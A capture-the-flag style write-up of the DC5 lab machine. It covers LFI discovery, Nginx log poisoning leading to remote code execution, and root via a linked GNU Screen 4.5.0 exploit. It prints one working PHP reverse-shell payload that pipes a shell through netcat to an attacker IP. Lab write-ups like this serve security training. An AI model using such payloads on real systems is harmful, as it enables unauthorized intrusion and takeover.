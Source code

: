 ```yaml
---
title: DC5 Offensive Security Writeup
tags: [writeup, offsec, LFI, RCE, Nginx, log, poison,SETUID, screen]
style: border
color: success
description: ""
---
```


![logo](../assets/img/dc5-offsec-writeup/1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](../assets/img/dc5-offsec-writeup/2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](../assets/img/dc5-offsec-writeup/3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](../assets/img/dc5-offsec-writeup/4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](../assets/img/dc5-offsec-writeup/5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](../assets/img/dc5-offsec-writeup/6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](../assets/img/dc5-offsec-writeup/7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](../assets/img/dc5-offsec-writeup/9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](../assets/img/dc5-offsec-writeup/10.png)

#### Result testing Remote Code Execute (RCE)
![](../assets/img/dc5-offsec-writeup/11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

#### PoC Log Poisoning + RCE
![](../assets/img/dc5-offsec-writeup/12.png)

#### Result PoC Log Poisoning + RCE
![](../assets/img/dc5-offsec-writeup/13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

We read the flag of *user.txt*.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](../assets/img/dc5-offsec-writeup/14.png)

#### Result reverse shell code
![](../assets/img/dc5-offsec-writeup/15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.

![](../assets/img/dc5-offsec-writeup/16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](../assets/img/dc5-offsec-writeup/17.png)
